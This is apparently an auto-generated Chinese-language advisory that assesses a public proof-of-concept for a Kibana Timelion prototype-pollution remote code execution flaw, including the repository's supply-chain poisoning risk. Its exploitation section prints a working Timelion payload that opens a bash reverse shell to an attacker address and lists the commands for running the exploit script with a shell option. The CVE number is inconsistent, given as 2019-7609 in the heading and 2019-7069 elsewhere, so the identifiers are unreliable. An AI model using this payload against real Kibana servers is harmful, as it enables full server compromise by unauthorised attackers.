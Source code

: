 ## CVE-2019-7609 - Kibana Remote Code Execution

**漏洞编号:** CVE-2019-7069

**漏洞类型:** Remote Code Execution

**影响应用:** Kibana

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** < 6.6.1

**利用条件:** 需要可以访问Kibana服务

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

该漏洞存在于Kibana的Timelion visualizer中，允许攻击者通过原型污染执行任意代码。具体来说，攻击者可以构造特定的Timelion表达式，修改JavaScript原型链上的属性，从而在服务器端执行恶意命令。

**有效性：**
根据提供的漏洞利用代码（`kibana_exploit.py`和`README.md`），该POC是有效的。`README.md`详细描述了漏洞的利用方法，包括手动利用（通过Timelion）和自动化利用（通过Python脚本）。`kibana_exploit.py`脚本实现了自动化利用，可以检测Kibana版本，验证漏洞是否存在，并执行任意命令，甚至可以建立反向shell。

**投毒风险：**
`kibana_exploit.py` 脚本内容相对简单, 未发现明显恶意代码。脚本主要功能是发送HTTP请求并解析响应，以及构造特定的Timelion表达式。`README.md`文件包含了一些免责声明，表明作者不负责任任何滥用行为。仓库存在投毒风险,主要存在于以下假设情景:
1.  **依赖库投毒:**  虽然 `requests` 和 `packaging` 库本身不太可能被投毒，但如果用户从非官方源安装了恶意版本的依赖库，则可能引入恶意代码。
2.  **远端服务器投毒:**  脚本中的某些功能（例如，获取 Kibana 版本）可能依赖于从远程服务器获取数据。如果这些服务器被攻击者控制，则可能返回恶意数据，从而导致代码执行。
3.  **协作开发人员投毒:** 此脚本由LandGrey开发，[Your Name] refactor, 不排除原始作者存在投毒。
4.  **文件篡改:**  虽然不太可能，但如果攻击者能够篡改脚本文件本身，则可能插入恶意代码。但这种情况的概率较低，因为需要一定的权限才能修改文件。

**利用方式：**
1.  **手动利用（Timelion）：**
    *   打开Kibana的Timelion visualizer。
    *   粘贴提供的payload到Timelion表达式编辑器中，例如：
        `.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.1.100/4444 0>&1");process.exit()//') .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')`
    *   将`192.168.1.100`和`4444`替换为攻击者的IP地址和端口。
    *   点击“Run”，然后点击左侧的“Canvas”，即可触发反向shell。

2.  **自动化利用（Python脚本）：**
    *   安装依赖库：`pip install requests packaging`
    *   运行脚本：`python3 kibana_exploit.py -u http://target-kibana:5601`
    *   如果需要反向shell，可以使用以下命令：
        `python3 kibana_exploit.py -u http://target-kibana:5601 --shell -host YOUR_IP -port LISTENER_PORT`
    *   替换`YOUR_IP`和`LISTENER_PORT`为攻击者的IP地址和端口。

该漏洞利用的核心是原型污染，通过修改`label.__proto__.env`属性，可以设置`NODE_OPTIONS`环境变量，从而在执行JavaScript代码时加载恶意模块，最终执行任意命令。

**项目地址:** [CaelumIsMe/CVE-2019-7069-POC](https://github.com/CaelumIsMe/CVE-2019-7069-POC)

**漏洞详情:** [CVE-2019-7069](https://nvd.nist.gov/vuln/detail/CVE-2019-7069)
